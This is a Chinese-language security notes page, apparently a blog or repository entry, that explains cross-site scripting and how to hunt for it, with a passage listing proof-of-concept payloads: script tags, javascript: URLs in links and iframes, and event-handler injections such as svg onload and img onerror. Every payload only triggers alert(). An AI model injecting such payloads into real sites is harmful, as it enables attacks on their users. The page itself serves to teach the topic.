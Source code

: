 ```yaml
---
title: XSS 跨站脚本攻击 
description: 总结一下XSS漏洞利用、绕过及防御姿势。
categories:
 - web vul
tags:
 - XSS
---
```


## 概述

> 跨站脚本攻击是指恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

## 漏洞挖掘思路
1. 查找输入点
2. 哪些输入点会有输出
3. 输入一些特殊字符以此判断哪些字符被过滤
4. 知道过滤规则过后开始考虑编写能够绕过过滤的payload
5. 根据页面是否弹窗等信息判断是否存在xss

## POC构造

### 标签之间输出

#### 直接利用`<script>`标签

```
<script>alert(1)</script>
```

#### 利用html标签属性值和javascript伪协议

* 不是所有的浏览器都支持javascript伪协议（火狐和谷歌可以）
* 有没有引号也无所谓
* 不是所有的属性值都能产生XSS，通常引用文件的属性才可以（href,lowsrc,src,value,action,background,dynsrc等）

```
<a href="javascript:alert(1)">dianji</a>
<iframe src=javascript:alert(0)></iframe>
```

* 下面两个IE6才可以

```
<img src="javascript:alert('1');">
<table background="javascript:alert(1)"></table>
```

#### 利用事件onxxx

```
<a onmouseover=alert(1)>xxs link</a>
<svg onload=alert(1)>
<img src=x onerror=alert()>
<body onload=alert()>
```
